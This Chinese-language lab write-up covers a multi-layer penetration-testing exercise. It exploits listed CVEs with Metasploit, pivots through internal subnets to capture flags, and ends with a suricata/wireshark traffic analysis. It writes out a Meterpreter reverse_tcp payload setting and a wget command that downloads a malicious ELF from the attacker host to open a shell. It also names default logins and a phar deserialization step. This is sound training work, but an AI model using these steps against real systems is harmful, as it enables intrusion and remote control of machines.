


# 网安实践实验二
---
## 拓扑搭建
候选镜像经过测试，可用列表如下：

- drupal 远程代码执行 （CVE-2019-6339）
- wordpress 命令执行 （CVE-2016-10033）
- Webmin 远程代码执行 （CVE-2022-0824）
- jenkins 代码执行 （CVE-2017-1000353）
- liferay 命令执行 (CVE-2020-7961)
- ~~ofbiz 远程代码执行 (CVE-2020-9496)~~
- ~~samba 代码执行 (CVE-2017-7494)~~
- ~~rsync-common 未授权访问~~
- phpimap 命令执行 (CVE-2018-19518)
- Nexus Repository Manager3 EL注入 (CVE-2018-16621)
- Druid 任意文件读取 （CVE-2021-36749）

scan port scanner/portscan/tcp

故搭建下面结构的网络：


---
## 第一层漏洞

启动场景后的开放端口中，可以有效访问的两个分别为wordpress和liferay的端口：


### wordpress 命令执行 （CVE-2016-10033）

在kali进入msf的终端，开始搜索指定类型的漏洞：


搜索到指定给的漏洞后，通过`use`命令进入模块，并查看模块的相关信息：


通过info的信息修改ip和port


修改完必须的参数后发动攻击：


得到flag


需要注意这里有一个问题，在ip为 192.168.131.10 这台虚拟机中，Metasploit的版本为6.4


而另外一个更新过的ip为 192.168.131.6 的虚拟机中Metasploit的版本高达6.4.56

Metasploit 在最新的 dev 分支里，默认的 HTTP Stager Server 在把第一阶段的 prestager 脚本 (“wget…”) 送出去之后就立刻关掉了。
而在 6.4.9 里，这个内置的文件服务器会一直挂着，等机器再去拉真正的 Meterpreter 二进制的时候还在，于是就能成功。


这导致了对于这个漏洞，在老版本的Metasploit钟可以正常利用其攻击模组实现攻击，连接到shell，而在新的Metasploit中却不可以


### liferay 命令执行 (CVE-2020-7961)

和之前的wordpress一样处理，搜索相关的漏洞，找到后使用msf自带的攻击模块：


同样设置相关的参数


设置完后进行攻击：


连接shell成功后在`/tmp`路径得到flag


---


## 第二层漏洞：

在获得了第一层的shell后，需要进入meterpreter中查看ip网段


然后配置路由代理，使后面的攻击能够访问内网：


完毕后将session放入后台


扫描第二层的开放情况：


搜索第二层的一个漏洞webmin的模块，找到后启用并配置参数


配置完后启动攻击得到session


对得到的session进行升级，方便后面配置route路由


进入升级后的session查看ip发现是双网卡


和第一层的一样配置路由以供下一层内网使用：


接着顺手getflag


## 第三层漏洞

在获得了第二层的shell之后，同样配置路由并进行第三层的端口扫描：


通过端口映射到本地：


本地访问：


使用admin/admin123作为用户名和密码登录后修改用户的lastname


使用yakit抓取在修改过程中的post请求包，对其中的参数进行修改，添加payload


然后在攻击机中开启相应的端口监听，等待发送post包后的反弹shell回连,回连成功后即可访问目录得到flag


但是为了能够在metasploit中获取到内网的sessions，还需要进行下面的操作,在meta中启用反弹shell的监听模块，然后通过配置参数运行模块


并配置对应的payload：
```sh
set PAYLOAD  linux/x64/meterpreter/reverse_tcp
```


在攻击机中生成一个带有反弹shell命令的恶意程序：


然后在攻击机中开启http服务：



在之前连接到的shell中执行下面的命令，下载恶意的程序并赋权执行：

```sh
wget http://192.168.131.6:8000/meter.elf -O /tmp/meter
```


在之前开启的监听模块中得到了session


查看发现是双网卡


## 第四层漏洞

### 攻击部分

为了能够继续攻击下面的靶标，需要配置路由，操作和之前的一样：


配置完成后使用模块进行扫描,发现新的ip和端口：


到这里，可以确定的网络的机构如下：


进入得到的最新的session中，开启断端口映射：


在主机中可以访问下面的页面：


使用admin/123456登录后可以上传头像图片文件



修改嵌入图像中的反序列化命令


在设置页面中查看文件系统，设置临时目录，并调用phar，解析嵌入到图片中的命令并执行


得到flag回显


### 攻击检测部分

在靶机中提前获取目标容器所在的网段，为后面抓包做准备


通过network的id号找到该容器对应的网卡


对指定的网卡进行抓包


抓取数据包后简单的通过suricata进行初步分析，了解大体结构

、


然后通过wireshark详细分析数据包中的流量内容
发现与内网ip`10.10.30.3`有交互的http流量后，对其追踪流进行检查


发现是发送图片与提交保存的请求包
进一步向下分析，看到了图片的数据区


其中有部分ascll明文的数据内容，是一个php的反序列化，其中包含了一个`ls /tmp`的命令，这正攻击者利用漏洞进行命令执行的命令，而这张上传的图片可以推测为POC


---


